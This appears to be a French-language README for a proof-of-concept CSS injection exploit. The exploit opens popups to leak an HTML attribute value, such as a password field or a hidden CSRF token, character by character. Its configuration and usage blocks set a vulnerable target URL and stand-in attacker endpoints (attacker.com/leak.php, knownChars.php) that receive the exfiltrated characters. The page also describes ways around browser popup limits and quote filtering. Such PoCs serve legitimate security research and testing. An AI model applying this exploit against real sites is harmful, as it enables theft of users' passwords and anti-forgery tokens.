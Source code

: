 # PoC - CSS Injection : popups

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant l'ouverture de popups afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.
- Etant donné que sur les navigateurs modernes une seule popup peut être ouverte à la fois et seulement suite à une action de l'utilisateur (clic par exemple), l'alpahabet doit être testé en une seule requête pouvant causer une erreur de type `414 URI too long`

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "password";

// True si le champs ciblé est de type "hidden" (utilisation des combinateurs CSS ~*)
const isHiddenTypeElement = false;

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Démo

### Récupération d'une valeur d'un champ de type password


### Récupération d'une valeur d'un champ de type hidden